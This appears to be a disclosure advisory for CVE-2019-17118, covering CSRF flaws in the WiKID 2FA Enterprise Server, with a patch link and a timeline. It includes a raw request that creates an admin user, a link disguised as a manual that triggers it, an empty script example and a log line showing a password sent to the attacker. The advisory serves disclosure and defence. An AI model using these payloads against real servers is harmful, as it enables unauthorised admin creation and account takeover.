

Multiple Cross-Site Request Forgery issues, CVE-2019-17118, were identified on `WiKID Systems 2FA Enterprise Server` through version `4.2.0-b2053`.  The application did not implement any method of CSRF prevention, consequently, all state changing requests were potentially vulnerable, a sample of affected requests include:

* adm_usrs.jsp?action=add
* adm_usrs.jsp?action=Delete
* processDeviceStatus.jsp?action=Update
* processDeviceStatus.jsp?action=Disable
* processDeviceStatus.jsp?action=Enable
* processDeviceStatus.jsp?action=Delete
* groups.jsp?groupAction=Add
* groups.jsp?groupAction=Delete

## Patch

* **4.2.0.b2053**: <https://downloads.wikidsystems.com/wikid-server-enterprise-4.2.0.b2053-1.noarch.rpm>

## Timeline

* 26 Sep 2019 - Issue discovered on `WiKID Systems 2FA Enterprise Server 4.2.0-b2032`
* 29 Sep 2019 - Issue disclosed to WiKID Systems
* 09 Oct 2019 - Issue confirmed by WiKID Systems, Patch released
* 16 Oct 2019 - Public Disclosure

## Description

Walking through the application revealed that requests did not contain any method of CSRF protection.  For example, the request to create an admin user can be as simple as:

~~~
GET /WiKIDAdmin/adm_usrs.jsp?usr=test&newpass1=password1&newpass2=password1&action=Add HTTP/1.1
Host: $RHOST
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=$COOKIE
Connection: close
Upgrade-Insecure-Requests: 1
~~~

This request could be hidden in a link on a page:

~~~
<a href="https://$RHOST/WiKIDAdmin/adm_usrs.jsp?usr=pentest&newpass1=password1&newpass2=password1&action=Add">WiKIDAdmin Manual</a>
~~~

Or in JavaScript that will execute silently in the background (some browsers may prevent this as C.O.R.S. headers are not set):

~~~
<html>
	<body>
        
	</body>
</html>
~~~

If a user, that is authenticated to the application, visits the malicious page a new admin will be unintentionally added.  The following demonstrates a user visiting the malicious page, `csrf.html`, followed by a request to create an admin,  finally a notification is sent to the attacker with the password:

~~~
$RHOST - - [14/Oct/2019 04:44:17] "GET /?pass=0.xhd2htmjz1 HTTP/1.1" 200 -
~~~
